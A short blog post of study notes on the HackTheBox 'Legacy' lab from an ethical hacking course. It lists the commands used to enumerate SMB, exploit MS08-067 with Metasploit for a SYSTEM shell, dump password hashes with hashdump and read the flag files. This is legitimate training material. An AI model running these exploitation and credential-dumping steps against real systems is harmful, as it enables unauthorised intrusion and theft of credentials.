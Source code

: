 ```yaml
---
layout:     post
title:      TCM PEH Hacking Legacy Notes
date:       2021-03-11
summary:    TheCyberMentor's Practical Ethical Hacking course, HackTheBox Legacy notes
categories: certs
thumbnail: cogs
tags:
 - htb
 - certs
---
```



<h2 class="code-line" data-line-start=0 data-line-end=1 ><a id="HTB_Legacy_0"></a>HTB Legacy</h2>
<p class="has-line-data" data-line-start="1" data-line-end="2">I’m just gonna record his commands to derive methodology</p>
<p class="has-line-data" data-line-start="3" data-line-end="8">nmap -A -T4 -p- 10.10.10.4<br>
Noted port 139<br>
Noted port 445<br>
Noted Windows XP OS<br>
Noted smb-security-mode</p>
<hr>
<p class="has-line-data" data-line-start="9" data-line-end="12">smbclient -L \\10.10.10.4\<br>
enter<br>
dead end</p>
<hr>
<p class="has-line-data" data-line-start="13" data-line-end="21">msfconsole<br>
search smb_version<br>
use auxiliary/scanner/smb/smb_version<br>
options<br>
set rhost 10.10.10.4<br>
options<br>
exploit<br>
Noted Windows XP SP3</p>
<hr>
<p class="has-line-data" data-line-start="22" data-line-end="26">Googled Windows XP SP3 exploit<br>
Opened exploit-db link<br>
Opened rapid7 link<br>
Note MS08-067 at rapid7 link is a metasploit module</p>
<hr>
<p class="has-line-data" data-line-start="27" data-line-end="46">use exploit/windows/smb/ms08_067_netapi<br>
options<br>
set rhost 10.10.10.4<br>
show targets<br>
exploit<br>
Meterpreter session 1 opened<br>
getuid<br>
Noted NT SYSTEM<br>
sysinfo<br>
Noted x86 matches x86 Meterpreter shell<br>
hashdump<br>
shell<br>
cd “c:\documents and settings”<br>
cd john\desktop<br>
type user.txt<br>
cd …\Administrator\desktop<br>
type root.txt<br>
ctrl+c<br>
ctrl+c</p>


